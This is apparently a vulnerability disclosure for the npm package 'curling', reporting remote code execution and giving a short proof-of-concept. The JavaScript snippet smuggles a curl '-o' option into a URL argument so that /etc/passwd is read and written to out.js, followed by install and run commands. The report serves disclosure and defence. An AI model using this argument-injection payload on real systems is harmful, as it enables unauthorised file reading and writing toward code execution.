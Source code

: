 # Description

Remote Code Execution (RCE) in curling

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const curling = require('curling');
curling.run('file:///etc/passwd -o ./out.js', function(d, payload){console.log(payload)});
```

2. Execute the following commands in terminal:

```
npm i curling # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution. And view the content in out.js
